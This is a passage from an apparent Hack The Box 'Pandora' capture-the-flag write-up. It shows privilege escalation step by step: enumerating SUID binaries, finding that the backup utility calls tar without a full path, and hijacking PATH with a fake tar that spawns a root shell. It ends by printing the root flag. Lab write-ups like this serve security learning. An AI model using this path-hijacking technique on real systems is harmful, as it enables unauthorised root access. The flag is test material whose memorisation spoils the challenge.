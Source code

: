 ![Binary](C:\Users\Usuario\Desktop\HTB Writeups\Pandora Writeup\content\Binary.png)



we also can found the binary by this command

```bash
find / -perm -u=s 2> /dev/null
```
**Output:**

```bash
... ... ... ... ....
/usr/bin/pandora_backup
... ... .... ... ...
```


So we can check what the binary does. Since the target machine does not have "strings" i downloaded the binary in my machine, and using strings i saw the following:

```bash
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*

```
The binary uses "tar" `so what we can try is Path Hijacking` 
lets go to the /tmp directory and make a tar that contents a /bin/bash:
"echo "/bin/bash" > tar"
and let's increase the permissions of the files

```bash
chmod 777 tar

```

Now, follow these steps:

```bash
matt@pandora:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

matt@pandora:/tmp$ export PATH=/tmp:$PATH
matt@pandora:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

matt@pandora:/tmp$ /usr/bin/pandora_backup //executing the binary
PandoraFMS Backup Utility  //binary output
Now attempting to backup PandoraFMS client //binary output

root@pandora:/tmp# whoami
root
root@pandora:/tmp# 
```
**Now we are root!**
we can check the root flag on the root directory

>root@pandora:/tmp# cd /root
>root@pandora:/root# ls
>`root.txt`
>root@pandora:/root# cat root.txt
>`13e4847b3c826c47e343dff0003c32aa`
>root@pandora:/root# 
****

****